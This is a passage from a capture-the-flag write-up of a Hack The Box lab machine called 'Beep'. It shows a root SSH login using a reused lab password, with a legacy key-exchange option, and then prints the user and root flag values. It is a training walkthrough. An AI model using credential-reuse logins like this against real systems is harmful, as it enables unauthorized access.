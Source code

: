 To solve this issue, I used the command below. For the password I used the one who was reuse which is : "jEhdIekWmdjE".

```
ssh root@10.10.10.7 -oKexAlgorithms=+diffie-hellman-group1-sha1
root@10.10.10.7's password: 
Last login: Fri Jul 17 17:31:11 2020 from 10.10.14.4

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]#
```

And there you have a "root" shell !

## Flags

------

### User.txt

```
sh-3.2# find / -name "user.txt"
/home/fanis/user.txt
sh-3.2# cat /home/fanis/user.txt 
aeff3def0c765c2677b94715cffa73ac
```

### Root.txt

```
sh-3.2# find / -name "root.txt"
/root/root.txt
sh-3.2# cat /root/root.txt
d88e006123842106982acce0aaf453f0
```
